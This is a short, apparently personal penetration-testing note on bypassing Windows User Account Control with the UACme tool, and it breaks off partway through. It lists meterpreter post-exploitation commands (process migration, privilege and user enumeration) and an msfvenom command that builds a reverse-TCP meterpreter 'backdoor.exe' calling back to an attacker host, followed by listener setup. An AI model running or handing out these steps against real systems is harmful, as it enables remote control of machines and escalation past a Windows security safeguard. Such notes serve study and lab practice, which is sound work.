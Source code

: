 # Bypassing UACs

**Tool** - UACme  
https://github.com/hfiref0x/UACME

You will need access to a user account that is part of the local administrators group on a Windows system  

1. Get a meterpreter shell before running this tool
2. Do a ```sysinfo``` to gather system information
3. migrate to explorer process ```pgrep explorer``` and then ```migrate (number)```
4. ```getuid``` -- gets user ID
5. ```getprivs``` -- gets privileges
6. open a shell session with ```shell```
7. ```net user```
8. ```net local group administrators```

### UACme
1. Generate an MSFvenom payload ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.4.8 LPORT=1234 -f exe > backdoor.exe```
2. Setup Listener ```use multi/handler```
3. set payload ```set payload windows/meterpreter_reverse_tcp```
4. 
